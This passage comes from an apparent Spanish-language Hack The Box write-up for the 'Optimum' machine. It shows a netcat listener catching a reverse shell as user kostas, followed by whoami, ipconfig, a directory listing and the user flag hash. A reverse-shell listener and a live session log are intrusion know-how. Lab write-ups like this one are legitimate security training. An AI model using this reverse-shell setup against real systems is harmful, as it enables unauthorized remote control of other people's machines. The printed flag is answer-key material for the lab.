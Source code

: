 - Se recibe la shell con usuario sin privilegios de admin:

```sh
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Optimum]
└─$ rlwrap nc -nlvp 666                 
listening on [any] 666 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49162
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas     <<<------- PWN!!! (user level)

C:\Users\kostas\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.8
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{99C463C2-DC10-45A6-9CC8-E62F160519AE}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Users\kostas\Desktop>
```

### Búsqueda de flag user:

- Está en la ubicación de siempre... en el escritorio que llegué:

```bat
C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is EE82-226D

 Directory of C:\Users\kostas\Desktop

08/01/2023  04:53 ��    <DIR>          .
08/01/2023  04:53 ��    <DIR>          ..
18/03/2017  02:11 ��           760.320 hfs.exe
08/01/2023  04:52 ��                34 user.txt
               2 File(s)        760.354 bytes
               2 Dir(s)   5.619.822.592 bytes free

C:\Users\kostas\Desktop>type user.txt
type user.txt
cc7236b9ab736cab544593b86d226f3d

C:\Users\kostas\Desktop>

```
